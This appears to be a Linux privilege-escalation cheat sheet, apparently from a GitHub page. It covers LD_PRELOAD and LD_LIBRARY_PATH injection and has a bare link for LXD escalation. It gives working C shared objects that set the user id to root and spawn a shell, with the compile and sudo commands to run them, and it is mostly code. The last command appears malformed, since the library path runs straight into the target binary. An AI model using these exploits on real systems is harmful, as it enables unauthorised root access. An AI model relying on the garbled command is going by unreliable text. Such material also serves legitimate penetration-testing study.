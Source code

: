 
## LD_PRELOAD Injection

[LD_PRELOAD Injection](https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/)

### Add the below line in /etc/sudoers
```
Defaults env_keep+=LD_PRELOAD
```
### List the Permissions
```
sudo -l
```
***Pwn.c***
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
```
```
//Compile and Run

gcc -fPIC -shared -o pwn.so pwn.c -nostartfiles

sudo LD_PRELOAD=/tmp/pwn.so /usr/bin/ping
```


## LXD Privilege Escalation

[LXD Privilege Escalation](https://www.hackingarticles.in/lxd-privilege-escalation/)



## LD_LIBRARY_PATH Injection

[LD_LIBRARY_PATH](https://atom.hackstreetboys.ph/linux-privilege-escalation-environment-variables/)


```
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```
```
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c

sudo LD_LIBRARY_PATH=/tmp/sbin/apache2
```
